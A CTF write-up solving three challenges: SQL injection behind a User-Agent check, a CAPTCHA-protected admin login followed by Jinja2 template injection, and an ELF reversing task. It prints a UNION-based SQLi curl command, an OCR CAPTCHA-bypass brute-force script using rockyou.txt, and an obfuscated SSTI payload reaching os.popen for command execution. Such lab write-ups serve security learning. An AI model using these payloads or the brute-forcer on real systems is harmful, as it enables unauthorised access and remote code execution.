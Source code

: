 ```yaml
---
title: "Blackberry-CCoe-Anniversary CTF 2025 - Writeup"
date: 2025-05-09
categories: [CTF, Writeup]
tags: [CTF, reverse, web]
image: assets/writeups/BBCTF/BBCTF.png
---
```



## web

## Challenge name : SQLI Series - 1

**DESCRIPTION**
This store is only for my customers to visit and do online purchase. There are Apple, Banana and Cherry. Nothing else right?

First, we were given a Dockerfile to set up the challenge on our own server, along with a link to the web-based challenge, which had a fruit-themed interface. The first thing I tried was entering a - character in the input field to check for a SQL error, since the challenge name hinted at an SQL injection. However, instead of an error, the response I got was simply "Forbidden".

![img](assets/writeups/BBCTF/BBCTF1.png)
![img](assets/writeups/BBCTF/BBCTF2.png)

After that, I downloaded the Dockerfile and set it up on my own server. While inspecting the setup, I found a hint  the application only accepts requests with a specific User-Agent header: UMCS-CTF.

![img](assets/writeups/BBCTF/BBCTF3.png)

Next, I asked ChatGPT what to do with all the findings I had so far, and it provided me with a potential payload to try: 

```sh
  curl -X POST http://157.180.92.15:5001/ \
  -H "User-Agent: UMCS-CTF" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "search=%' UNION SELECT 1, (SELECT flag_value FROM flag) -- -"
```
And get the flag
 
 ![img](assets/writeups/BBCTF/BBCTF4.png)

 the flag is bbctf{user_agent_is_not_enough_to_prevent_sqli!}


## Challenge Name : Sekure Note

**Description** I dont think you are able to get the flag. The captcha is too strong :(

Note: This challenge's login is meant to be bruted. Check source code for which wordlist to use :)

We were given a login link and a Dockerfile to set up the challenge on our own server. After setting it up, I opened the app.py file to look for any hints. There, I found hardcoded credentials  `username: admin` and `password: RANDOMPASSWORD` along with a comment referencing `#rockyou`, suggesting that the password can be brute-forced. If the login is successful, it redirects the user to the /admin/note page.

![img](assets/writeups/BBCTF/BBCTF5.png)

Next, I asked ChatGPT to help brute-force the login page using the username admin and passwords from the rockyou.txt wordlist. The login page also had a captcha, so GPT used OCR (Optical Character Recognition) to bypass it. Eventually, the correct password was found: peaches. Here's the script used:
 

```python
import requests
from PIL import Image
from io import BytesIO
import pytesseract

# Optional (kalau kau pakai Windows)
# pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract.exe'

url = 'http://157.180.92.15:7999/'
login_url = f'{url}/'  # or /login kalau ada
rockyou_path = 'rockyou.txt'  # make sure file ada

s = requests.Session()

# Step 1: Get login page and captcha image
r = s.get(login_url)
# Parse captcha image URL
from bs4 import BeautifulSoup
soup = BeautifulSoup(r.text, 'html.parser')
captcha_img_tag = soup.find('img')  # or more specific if needed
captcha_src = captcha_img_tag['src']
if not captcha_src.startswith('http'):
    captcha_src = url + captcha_src

# Step 2: Download captcha image
captcha_img_resp = s.get(captcha_src)
captcha_img = Image.open(BytesIO(captcha_img_resp.content))

# Step 3: OCR the captcha
captcha_text = pytesseract.image_to_string(captcha_img).strip()
print('[*] OCR Captcha:', captcha_text)

# Step 4: Bruteforce with rockyou.txt
for pw in open(rockyou_path, 'r', encoding='latin-1'):
    pw = pw.strip()
    data = {
        'username': 'admin',
        'password': pw,
        'captcha': captcha_text
    }
    res = s.post(login_url, data=data, allow_redirects=False)

    # Check login success
    if res.status_code == 302 and '/admin/notes' in res.headers.get('Location', ''):
        print(f'[+] SUCCESS! Password: {pw}')
        break
else:
    print('[-] Password not found in rockyou.txt')
```

After logging in, I was redirected to the admin notes page. To test for SSTI (Server-Side Template Injection), I entered the payload `[{ 7*7 }]`. If the output returns 49, it confirms that the template engine is evaluating the expression  which means SSTI is present.

Here’s the result:
![img](assets/writeups/BBCTF/BBCTF6.png)

Next, I began crafting a payload to exploit the SSTI vulnerability. Since the app was using HTML with Jinja2, I tested several variations. The one that worked for me was:

{% raw %}
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls ../cat flag.txt')|attr('read')()}}
```
{% endraw %}

![img](assets/writeups/BBCTF/BBCTF7.png)

The Flag Is BBCTF{c4ptcha_4nd_sst1_m4st3r!}

## Reverse Engineering

## Challenge Name : Trust-issue

Given an elf file the first step I do is check file type and use strings if there any important things . Got base 64 but it just a bait for the next step 

![img](assets/writeups/BBCTF/BBCTF8.png)

![img](assets/writeups/BBCTF/BBCTF9.png)

When I decode it just got the fake flag . Next we use `ida` to dissasamble it decompyle it and see the pseudocode .There's a lot of main so you need to find the real main and follow the flow. Upon analyze it I found there is hexString the input before user enter the input copy it and put it on llm with a proper prompt and it give a python script . Run the script and we get the flag .

![img](assets/writeups/BBCTF/BBCTF10.png)

![img](assets/writeups/BBCTF/BBCTF11.png)

Here is the Flag : bbctf{N0t_A11_3ntry_St4rts_Fr0m_M41N}

![img](assets/writeups/BBCTF/BBCTF13.png)








